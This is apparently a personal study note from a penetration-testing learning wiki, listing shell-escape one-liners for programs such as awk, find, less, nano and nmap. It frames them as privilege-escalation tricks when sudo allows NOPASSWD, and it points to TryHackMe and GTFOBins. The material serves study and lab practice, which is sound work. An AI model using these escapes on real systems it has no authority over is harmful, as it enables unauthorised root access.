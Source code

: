 # Shell Escapes

* **author**:: Nathan Acks  
* **date**:: 2021-10-31

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - see "Set a Shell in ViM"

GTFOBins is your one-stop resource for shell escape information.

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
* [Set a Shell in ViM](set-a-shell-in-vim.md)
